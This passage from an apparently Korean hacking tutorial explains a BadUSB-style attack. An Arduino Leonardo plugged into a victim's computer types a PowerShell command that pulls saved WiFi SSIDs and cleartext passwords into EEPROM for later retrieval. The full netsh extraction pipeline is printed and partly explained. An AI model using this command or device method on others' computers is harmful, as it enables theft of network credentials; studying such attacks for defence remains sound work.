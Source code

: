 # 공격 요약

- 먼저 Arduino Leonardo를 트롤하는 컴퓨터에 USB 포트를 통해 연결합니다. 앞서 언급한 두 개의 버튼을 기억하시나요? 왼쪽 버튼을 누르면 프로그램이 PowerShell 터미널을 시작하고 명령을 입력하기 시작합니다.
- 프로그램은 WiFi의 SSID와 비밀번호를 추출하여 Arduino의 전기적으로 지워지지 않는 프로그램 가능 읽기 전용 메모리(EEPROM)에 저장합니다. 비휘발성 플래시 메모리 장치이므로 저장된 정보는 더 이상 전원이 공급되지 않아도 유지됩니다.
- Arduino가 기능을 실행한 후에는 피해자 컴퓨터에서 이를 분리하고 제 컴퓨터에 연결합니다. 이번에는 EEPROM에 저장된 데이터를 Arduino가 내 컴퓨터로 덤프하는 오른쪽 버튼을 누릅니다.

<div class="content-ad"></div>

# WiFi SSID 표시 명령어

```js
(netsh wlan show profiles) |
Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} |
%{(netsh wlan show profile name="$name" key=clear)} |
Select-String "Key Content\W+\:(.+)$" |
%{$pass=$_.Matches.Groups[1].Value.Trim(); $_} |
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } |
Format-Table –AutoSize |
Out-String -OutVariable dataCaptured
```

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_2.png" />

WiFi SSID 표시 명령어가 길고 이해하기 어렵습니다. 이 글의 다음 부분에서는 명령어를 몇 가지 소화 가능한 섹션으로 나눠 코드의 기능을 이해하기 쉽게 설명하겠습니다.

<div class="content-ad"></div>

# 명령어 이해하기

## 섹션 A

이 명령어 섹션은 캐시된 SSID를 표시하고 ":(.+$" 문자열을 정규 표현식으로 필터링합니다.

```js
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim();
```

<div class="content-ad"></div>

<img src="/assets/img/2024-06-22-HackingacomputerusingArduino_3.png" />
